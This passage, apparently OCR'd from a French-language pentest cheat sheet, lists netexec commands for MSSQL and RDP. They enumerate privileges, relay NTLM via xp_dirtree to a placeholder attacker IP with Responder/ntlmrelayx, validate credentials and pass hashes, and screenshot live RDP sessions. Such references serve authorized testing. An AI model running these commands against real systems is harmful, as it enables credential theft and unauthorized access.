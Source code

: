 ```bash
  

# Énumérer les privilèges de l'utilisateur connecté

netexec mssql <cible> -u <user> -p <pass> -M mssql_priv

  

# Tenter un relais NTLM via xp_dirtree (si l'utilisateur a les droits)

# (Lancez Responder/ntlmrelayx avant)

netexec mssql <cible> -u <user> -p <pass> -M ntlmrelay -o RHOST=<ip_attaquant>

```

  

* **Contexte :** Interaction directe avec les serveurs MSSQL.

* **Usage :** Énumération de bases de données, exécution de requêtes, potentielle exécution de commandes système ou relais NTLM si l'utilisateur a les privilèges suffisants (`sysadmin` pour `xp_cmdshell`, `public` peut suffire pour `xp_dirtree`).

  

---

  

### 🖥️ **Protocole RDP** (Remote Desktop Protocol)

  

```bash

# Vérifier si RDP est ouvert et si NLA est requis

netexec rdp <cible>

  

# Tenter une connexion (vérifier les identifiants)

netexec rdp <cible> -u <user> -p <pass | -H hash>

  

# Prendre un screenshot de la session RDP (si une session est active)

netexec rdp <cible> -u <user> -p <pass | -H hash> --screenshot screenshot.png [--screentime <secondes>]

```

  

* **Contexte :** Interaction avec le service RDP.

* **Usage :** Vérification d'accès, validation d'identifiants, capture d'écran (moins courant pour l'exploitation directe comparé à SMB/WINRM).
